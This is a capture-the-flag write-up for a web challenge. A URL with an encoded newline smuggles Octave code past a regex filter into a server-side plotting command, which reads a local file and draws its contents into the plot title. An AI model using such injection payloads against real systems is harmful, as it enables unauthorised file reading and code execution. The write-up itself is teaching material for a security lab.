

### Challenge
Name: Ohio Instuments 84
Category: web
Difficulty: medium

### Solution
Enter the URL `https://ohio-instruments-84.chall.pwnoh.io/x)%0Atitle(fileread(char(readdir(char(46))(8)))`
You receive the flag as an image, wherever you see a subscript then some character c, it appears as _c in the flag


### Explanation
The payload in this case is a regex-limited string injection into octave
```javascript
if (!/^([x()+*\-\.\^/\d\s]|(\w+\())+$/.test(expr)) {
    throw new Error("Invalid expression");
}
const filename = `${crypto.randomUUID()}.jpg`;
const cmd = `x = -10:.2:10; h = figure('visible', 'off'); plot(x, ${expr}); saveas(h, '${filename}')`;
```
#### Regex breakdown
`x, (, ), +, *, -, ., ^, \d (digits), \s (whitespace)` are all valid characters
You can also use any `\w (alphanumeric or underscore)` character followed by a `(`
[regexr](https://regexr.com/) is a great tool for writing regex validated payloads

#### Octave payload breakdown
`%0A` is a newline character, so if we look at the command the server runs
```javascript
const cmd = `x = -10:.2:10; h = figure('visible', 'off'); plot(x, ${expr}); saveas(h, '${filename}')`;
```
The expanded octave script looks like
```octave
x = -10:.2:10; h = figure('visible', 'off'); plot(x, ${expr}); saveas(h, '${filename}')
```
After substitution
```octave
x = -10:.2:10; h = figure('visible', 'off'); plot(x, x)
title(fileread(char(readdir(char(46))(8)))); saveas(h, 'xxxxxxxxxxxxxxxx.png')
```
So we plot a line, and run `title(fileread(char(readdir(char(46))(8))))`
`char(46)` returns the character with ASCII code 46 (`"."`)
`readdir(".")` returns a cell array of strings with filenames in the current directory
`readdir(".")(8)` gets the 8th item from that cell array (`"flag.txt"`)
`char("flag.txt")` casts a cell type to a string
`fileread("flag.txt")` reads the content of the flag `"bctf{the_flag_contents}"`
`title("bctf{the_flag_contents}")` writes the flag to the plot
Then it is sent to use with the flag!